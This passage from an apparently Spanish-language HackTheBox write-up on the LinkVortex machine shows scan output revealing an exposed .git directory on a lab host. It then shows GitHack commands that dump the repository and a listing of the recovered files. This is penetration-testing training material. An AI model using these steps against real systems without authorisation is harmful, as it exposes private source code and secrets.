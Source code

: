 ```bash
[02:10:36] 301 -  239B  - /.git  ->  http://dev.linkvortex.htb/.git/
[02:10:36] 200 -   41B  - /.git/HEAD
[02:10:36] 200 -  620B  - /.git/hooks/
[02:10:36] 200 -  201B  - /.git/config
[02:10:36] 200 -  557B  - /.git/
[02:10:36] 200 -   73B  - /.git/description
[02:10:36] 200 -  402B  - /.git/info/
[02:10:36] 200 -  401B  - /.git/logs/
[02:10:36] 200 -  175B  - /.git/logs/HEAD
[02:10:36] 200 -  240B  - /.git/info/exclude
[02:10:36] 200 -  147B  - /.git/packed-refs
[02:10:36] 200 -  418B  - /.git/objects/
[02:10:36] 200 -  393B  - /.git/refs/
[02:10:36] 301 -  249B  - /.git/refs/tags  ->  http://dev.linkvortex.htb/.git/refs/tags/
[02:10:36] 200 -  691KB - /.git/index
```

### Downloading a Git project with GitHack

Procederemos a descarganos todo el repositorio de `/.git/` a través de la siguiente herramienta: `GitHack`.

{% embed url="https://github.com/lijiejie/GitHack" %}

```bash
❯ python3 /opt/GitHack/GitHack.py http://dev.linkvortex.htb/.git/ 2>/dev/null
[+] Download and parse index file ...
...[snip]...
[+] ghost/core/core/server/api/endpoints/images.js
[+] ghost/core/core/server/api/endpoints/index.js
[+] ghost/core/core/server/api/endpoints/integrations.js
...[snip]...
```

Al verificar el resultado obtenido, comprobamos que disponemos de 2 archivos `Dockerfile.ghost` y `authentication.test.js`.

```bash
❯ tree
.
├── dev.linkvortex.htb
│   ├── Dockerfile.ghost
│   └── ghost
│       └── core
│           └── test
│               └── regression
│                   └── api
│                       └── admin
│                           └── authentication.test.js
└── index

8 directories, 3 files
```

